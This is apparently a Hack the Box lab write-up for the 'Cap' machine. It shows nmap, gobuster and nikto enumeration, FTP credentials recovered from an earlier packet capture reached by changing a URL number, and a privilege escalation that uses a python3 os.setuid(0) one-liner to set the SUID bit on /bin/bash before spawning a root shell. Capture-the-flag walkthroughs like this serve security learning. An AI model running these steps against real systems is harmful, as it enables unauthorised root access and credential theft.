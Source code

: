 ```yaml
---
layout: default
title: Cap
parent: Hack the Box Labs
nav_order: 3
---
```

# Enumeration
Example of what is seen on the site. Appears to be nestat, IP Config, and some form of PCAP analysis pages via the menu. We also see that we're signed in as 'Nathan'.
![1](Pasted image 20210606202210.png)
![2](Pasted image 20210606202126.png)
![3](Pasted image 20210605154704.png)
## Nmap Scan:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 15:44 MDT
Nmap scan report for cap.htb (10.129.88.224)
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

---clipped---
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.22 seconds
```
## WappAlyzer
![1](Pasted image 20210605154447.png)
## GoBuster
```bash
└─$ cat gobuster.txt~
/data (Status: 302)
/ip (Status: 200)
/netstat (Status: 200)
/capture (Status: 302)
```
## Nikto
```bash
└─# nikto -host 10.129.84.196            
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.84.196
+ Target Hostname:    10.129.84.196
+ Target Port:        80
+ Start Time:         2021-06-06 20:17:02 (GMT-6)
---------------------------------------------------------------------------
+ Server: gunicorn
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: HEAD, OPTIONS, GET
+ 7916 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2021-06-06 20:29:41 (GMT-6) (759 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

- No Public Vulnerabilities published for VSFTP 3.0.3
- GoBuster identified a few paths, most of these readily available just by navigating around the site (no hidden admin or anything like that).

Every time I generate a new pcap, I notice that /data/# increments by 1.
![6](Pasted image 20210614213207.png)
I do some testing by sending it pings, attempting to connect to ftp and ssh, etc and inspect the pCAPs hoping to glean some relevant info. Since I see this incrementation I check to see if maybe I can investigate historical PCAPs, e.g. maybe some administrative tasks taking place before I even connected. We start at 0 and within, sure enough, is a clear text connection established to the FTP server including password:  
![4](Pasted image 20210614212825.png)  
![5](Pasted image 20210614212953.png)

Connect to SSH with the above credentials and grab the user flag.

### Privilege Escalation
```bash
nathan@cap:/$ sudo -l
[sudo] password for nathan:
Sorry, user nathan may not run sudo on cap.
nathan@cap:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/8542/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/1997/bin/mount
/snap/core18/1997/bin/ping
/snap/core18/1997/bin/su
/snap/core18/1997/bin/umount
/snap/core18/1997/usr/bin/chfn
/snap/core18/1997/usr/bin/chsh
/snap/core18/1997/usr/bin/gpasswd
/snap/core18/1997/usr/bin/newgrp
/snap/core18/1997/usr/bin/passwd
/snap/core18/1997/usr/bin/sudo
/snap/core18/1997/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1997/usr/lib/openssh/ssh-keysign
```

/bin/bash is what I want to run as root, looks like someone set the SUID bit on it already:
```bash
nathan@cap:~$ ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /usr/bin/bash
```

I could've skipped to running /bin/bash -p, but reset the machine to make sure this was the intended escalation path.

I know a way to set the SUID bit via python (thanks to the cyber mentor and tiberius' linux privelege escalation courses) and thankfully python3 is on this box
```bash
nathan@cap:~$ python3 --version
Python 3.8.5
nathan@cap:~$
```

Use python3 to set the SUID bit on /bin/bash
```bash
python3 -c 'import os; os.setuid(0);  os.system("chmod +s /bin/bash")'
```

Execute Bin/Bash elevated:
```bash
nathan@cap:~$ /bin/bash -p
bash-5.0# whoami
root
```

CD'd up to /root and cat'd out the root.txt
